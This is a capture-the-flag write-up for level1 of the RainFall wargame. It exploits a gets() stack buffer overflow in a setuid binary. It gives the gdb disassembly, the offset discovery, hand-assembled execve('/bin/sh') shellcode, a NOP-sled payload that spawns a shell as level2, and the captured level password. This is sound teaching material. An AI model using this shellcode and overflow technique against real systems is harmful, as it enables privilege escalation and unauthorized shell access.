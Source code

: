 # Level 1

- We login as user level1:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

```
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

```
level1@RainFall:~$ gdb level1
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
```


- This exercise is an introduction to stack [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).
The program generously allows us to write without limits into its stack.
We just need to write enough characters to reach the return address of the `main` function.
Then, we will replace this address with the address of a memory area that will contain a [shellcode](https://en.wikipedia.org/wiki/Shellcode) which will call `execve("/bin/sh")`.

- First, we need to know from how many characters the return address of our function starts to be substituted. It can be done quickly using a tool like [Metasploit](https://en.wikipedia.org/wiki/Metasploit).
```
$msf-pattern_create -l [pattern length] | [binary]
... get overried EIP address from GDB
```

```
$msf-pattern_offset -l [pattern length] -q [overried EIP address]
```

- The return address is found to be replaced after the 76th character:
```
(gdb) b*0x08048495
```

```
r < <(python -c "print('A'*76 + 'BBBBCCCC')")
Starting program: /home/user/level1/level1 < <(python -c "print('A'*76 + 'BBBBCCCC')")

Breakpoint 1, 0x08048495 in main ()
(gdb) i f
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0x42424242
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
```
>`saved eip 0x42424242`


- 42 is the hexadecimal ASCII value of the character 'B'. So, `BBBB` should be replaced with an address that points to the beginning of our shellcode.


- Let's make that shellcode.
```asm
section .text
    global _start

_start:
    xor esi, esi            ; 
    xor edi, edi            ; 
    xor ecx, ecx            ; 
    xor edx, edx            ; Cleaning registers

    push edx                ; Null terminate the string
    push 0x68732f2f         ; Pushing "//sh"
    push 0x6e69622f         ; Pushing "/bin"
    
    mov ebx, esp            ; Pointer to the string
    xor eax, eax            ;
    mov al, 0xb             ; 11 is the syscall number of execve
    int 0x80
```

```
$ nasm -f elf32 src.asm -o obj.o
```

```
$ objdump -d obj.o

test.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:   31 f6                   xor    %esi,%esi
   2:   31 ff                   xor    %edi,%edi
   4:   31 c9                   xor    %ecx,%ecx
   6:   31 d2                   xor    %edx,%edx
   8:   52                      push   %edx
   9:   68 2f 2f 73 68          push   $0x68732f2f
   e:   68 2f 62 69 6e          push   $0x6e69622f
  13:   89 e3                   mov    %esp,%ebx
  15:   31 c0                   xor    %eax,%eax
  17:   b0 0b                   mov    $0xb,%al
  19:   cd 80                   int    $0x80
```


- So we have a 27 bytes shellcode.
```
$ echo -ne "\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80" | wc -c
27
```


- Now, we need to store our shellcode somewhere in the program's memory, for example, writing it into the memory area filled by `<gets@plt>`. Let's start by retrieving this memory address.
```
level1@RainFall:~$ gdb level1
```

```
(gdb) b*0x08048495
```

```
(gdb) r < <(echo -n "123")
Starting program: /home/user/level1/level1 < <(echo -n "123")

Breakpoint 1, 0x08048495 in main ()
(gdb) x $eax
0xbffff6d0:     0x00333231
```


- The address is `0xbffff6d0`, this means that by launching our program like so `(gdb) r < <(python -c "print '$SHELLCODE' + 'a'*(76 - 27) + '\xd0\xf6\xff\xbf'")`, the program's execution flow should be redirected to our shellcode.


- However, `(gdb) r < <(echo lol)` is equivalent to `$ echo lol | our_binary`. Thus, the pipe will send EOF once `lol` has been transmitted to `our_binary`, which means that `stdin` will be closed for `our_binary`. Since `execve()` inherits the I/O of the parent process, our `/bin/sh` would close immediately. That's why we will add `cat` to keep `stdin` open during `execve()`.
```
(gdb) r < <(python -c "print '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*49 + '\xd0\xf6\xff\xbf'"; cat)
...
whoami
level1
```


- A shell has been successfully launched, let's take advantage of [the setuid and setgid permission bits](https://en.wikipedia.org/wiki/Setuid) by doing the same thing without GDB.
```
level1@RainFall:~$ (python -c "print '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*49 + '\xd0\xf6\xff\xbf'"; cat) | ./level1

Illegal instruction (core dumped)
```


- It doesn't work, indeed, the environment is slightly different between a program launched with/without GDB. That's why the exact address we are targeting isn't exactly the same. We therefore need to find the correct address. By adding [NOP instructions](https://fr.wikipedia.org/wiki/NOP) before our shellcode, we can make the address search less laborious. We would then be tempted to do it like this:
```
python -c "print '\x90'*49 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\xd0\xf6\xff\xbf'"
```


- But since our shellcode is stored directly in the stack, and `esp` is at that moment of program execution at the level of the previous stack frame, our instructions `push $0x68732f2f` and `push 0x6e69622f` would corrupt our shellcode, and it wouldn't work.
So, we need to keep a bit of space, precisely 8 bytes:
```
python -c "print '\x90'*41 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*8 + '\xd0\xf6\xff\xbf'"
```

- Thus, thanks to these NOP instructions, the execution of our shellcode will be able to succeed from a broader range of addresses.
```
level1@RainFall:~$ (python -c "print '\x90'*41 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*8 + '\xf0\xf6\xff\xbf'"; cat) | ./level1

whoami
level2

cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
